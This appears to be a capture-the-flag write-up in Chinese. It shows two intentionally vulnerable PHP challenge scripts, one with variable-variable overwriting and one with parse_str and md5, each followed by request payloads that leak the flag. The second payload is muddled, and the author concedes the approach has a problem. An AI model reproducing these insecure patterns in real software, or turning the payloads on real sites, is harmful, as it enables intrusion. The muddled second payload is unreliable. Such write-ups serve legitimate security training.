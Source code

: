 ```php
 <?php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
?>
你还想要flag嘛？
```
payload
```
get
?suces=flag
post
error=suces
```

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");
if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;

       }
}
?>
```
分析:
```
parse_str($v1,$v2);
将 $v1,$v2 作为key,对应的值作为 $value
于是本人构造payload:
v1=$value & v3=$value
存在问题!!!
```
payload:
```
v1=v2=flag=md5(v3)
```

